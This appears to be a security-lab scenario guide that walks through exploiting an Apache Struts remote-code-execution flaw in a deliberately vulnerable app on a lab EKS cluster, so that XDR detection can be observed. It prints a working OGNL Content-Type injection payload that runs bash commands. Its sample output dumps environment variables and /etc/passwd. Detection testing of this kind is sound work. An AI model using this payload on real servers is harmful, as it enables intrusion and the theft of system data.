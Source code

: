 # Scenario: Detect Apache Struts RCE Vulnerability Exploitation (EKS)

## Prerequisites

- Vision One XDR for Containers linked with Playground One VPC
- Playground One EKS Cluster
- Playground One Scenarios
  - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply eks
pgo --apply scenarios
```

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o scenarios
```

Example output with ECS EC2:

```sh
loadbalancer_dns_health_check = "k8s-goat-healthch-e9104c52db-803985454.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_hunger_check = "k8s-goat-hungerch-0816ee11b2-1006982801.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_java_goof = "k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_openssl3 = "k8s-victims-webappin-8cd6b2fc5e-1459691118.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_system_monitor = "k8s-goat-systemmo-09a16052b6-565756108.eu-central-1.elb.amazonaws.com"
```

You want the variable `loadbalancer_dns_java_goof`.

### Exploit

Run:

```sh
cd ${ONEPATH}/exploits/struts/
./struts-exploit.sh k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 3.120.84.56:80...
* Connected to k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com (3.120.84.56) port 80 (#0)
> GET /todolist/ HTTP/1.1
> Host: k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
WEB_APP_SERVICE_SERVICE_PORT=80
KUBERNETES_SERVICE_PORT_HTTPS=443
TREND_AP_LOG_FILE=STDERR
JAVA_GOOF_SERVICE_SERVICE_PORT=8080
KUBERNETES_SERVICE_PORT=443
WEB_APP_SERVICE_PORT_80_TCP_ADDR=172.20.245.34
MAVEN_CONFIG=/root/.m2
MAVEN_PROJECTBASEDIR=/usr/src/goof
HOSTNAME=java-goof-6c95b8cd5f-qn49h
MAVEN_CMD_LINE_ARGS=/root/.m2 tomcat7:run
JAVA_GOOF_SERVICE_PORT_8080_TCP_PORT=8080
...
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com left intact
```

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-eks-struts-01.png "Exploit")
